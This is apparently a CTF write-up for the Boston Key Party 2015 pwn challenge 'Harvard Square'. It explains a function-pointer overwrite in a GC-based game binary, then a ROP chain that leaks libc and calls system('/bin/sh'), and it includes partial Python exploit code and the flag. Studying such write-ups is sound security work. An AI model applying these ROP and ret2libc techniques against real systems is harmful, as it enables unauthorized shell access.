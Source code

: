 title: Boston Key Party CTF 2015 Pwn 275 Harvard Square 
date: 2015-03-02 1:50
category: pwn
tags: BKPCTF, Stack Overflow
slug: bkpctf_pwn_275_harvard_square

This problem was worth 275 pts, but I thought it is easier than other red problems. XD  
We could reverse it happily beacuse the programe wasn't stipped.  
* * *

The problem is a game about transcation of 0days.  
We could enter the password and cheated the game, but it's useless. XD  
After executing the binary, the game printed the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!  

The program for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```

However, if understood the game rule, we could know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It couldn't overflow the return address, but we could use it to change function pointers. :D  

The program use [simple-gc](https://github.com/dhamidi/simple-gc/).  
It will create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We could overwrite function ptr to `action_hiscore`, and we could overwrite the return address.  

We could write the exploit until now.  
Honestly, I am not familar with x64 architecture exploit.  
I wasted a lot of time to debug my code. :(  

By the way, args on x64 is in register.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
arg4 => r8
...
```

So we must find some gadget to control arguments at first.  
Then, we could use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I returned to `action_hiscore()` again because there is `fflush()` at the end of function.  

After leaked the address, we could calulate the address of `system()`.  
Next, We needed a string of "/bin/sh".  
Luckily, we could find it in libc, too. XD  
So we couldn execute `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

flag: `stay_in_school_and_dont_do_the_grugq`  
